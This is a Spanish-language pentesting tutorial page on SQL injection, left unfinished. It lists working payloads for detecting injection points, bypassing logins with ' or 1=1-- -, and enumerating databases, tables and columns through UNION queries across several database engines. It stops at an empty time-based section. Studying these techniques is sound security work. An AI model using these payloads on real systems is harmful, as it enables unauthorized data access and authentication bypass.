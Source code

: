 # SQL Inyection \[in progress]

Este tipo de ataque le permite a un atacante el ejecutar querys en un campo vulnerable de la págian web, permitiendo ejecutar comandos en la base de datos que de otra manera no podría acceder. Esto permite el obtener información de la/las base/s de datos en el servidor, ejecución remota de comandos a través de otras vulnerabilidades o una denegación de servicio.



## **Indice**

* [Descubrimiento](sql-inyection-in-progress.md#descubrimiento)
  * [Comentarios](sql-inyection-in-progress.md#comentarios)
  * [Database Version](sql-inyection-in-progress.md#database-version)
* [Tipos](sql-inyection-in-progress.md#tipos)





## Descubrimiento

Lo primero será fuzzear los campos que se conecten con el backed para ver si responden de una manera inesperada al tratar de romper la query:

```
'
"
`
')
")
`)
'))
"))
`))
```

#### Comentarios

| Oracle   | Microsoft     | PostgreSQL    | MySQL         |
| -------- | ------------- | ------------- | ------------- |
| --coment | --coment      | --coment      | #comment      |
|          | /\*comment\*/ | /\*comment\*/ | --coment      |
|          |               |               | /\*comment\*/ |

#### Database Version

```sql
# Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance

# Microsoft
SELECT @@version

# PostgreSQL
SELECT version()

# MySQL
SELECT @@version
```

#### Logical Error Operators

```clike
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```





## In-Band SQL Injection

En este tipo de inyección el atacante utiliza el **mismo canal** de comunicación que la base de datos para mostrar la data en la página, habiendo 2 tipos: Error based y Union Based.

### Error Based

Este tipo de inyeccion se aprovecha de los errores que muestra la base de datos al usuario, pudiendo **enumerar** información o en ocasiones toda la base de datos.

| Descripción                    | Query                      |
| ------------------------------ | -------------------------- |
| Enum columns with **ORDER BY** | ' order by 1,2,3-- -       |
| Enum columns with **UNION**    | ' union select 1,2,3,4-- - |

#### Explotación

En este caso hay una página que devuelve información de un usuario si se validan las credenciales de este, y como se puede apreciar si se pone una **'** después del usuario esto romperá la query:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Por lo que si le añadimos **'--** al usuario admin comentaremos la seccion de AND password='' y bypasearemos este campo:

![](<../.gitbook/assets/image (18).png>)

Esto solo se aplicaría para el usuario admin, pero si queremos hacerlo para todos podemos aplicar un operador lógico **' or 1=1-- -** para que devuelva información de todos:

![](<../.gitbook/assets/image (51).png>)



### Union Based

En este tipo de inyección es parecida a la error-based en la diferencia que en esta se puede obtener información de la base de datos actual (o de otras) extendiendo la query.

**MySQL, Microsoft PostgreSQL:**

<table><thead><tr><th width="247">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Enumerar Bases de datos</td><td>' UNION SELECT 1,table_schema FROM information_schema.schemata-- -</td></tr><tr><td>Enumerar DB::tablas</td><td>' UNION SELECT null, concat(table_schema,'::',table_name) FROM information_schema.columns-- -</td></tr><tr><td>Enumerar Columnas</td><td>' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='&#x3C;Table Name>' -- -</td></tr></tbody></table>

**Oracle**

<table><thead><tr><th width="252">Descripción</th><th>Query</th></tr></thead><tbody><tr><td>Listar tablas</td><td>' UNION SELECT null, table_name FROM all_tables-- -</td></tr><tr><td>Listar columnas</td><td>' UNION SELECT null, column_name FROM all_tab_columns WHERE table_name = '&#x3C;Table Name>'-- -</td></tr></tbody></table>

## Blind SQL Injection

En este tipo de inyección no se obtiene un código de error por parte del servidor, sino que dependiendo de la respuesta del servidor ante la query que enviemos se podrá explotar correctamente, ya que a veces depende del código de estado que devuelva el servidor, si muestra o no información, o el tiempo que tarde en responder.

### **Time Based**



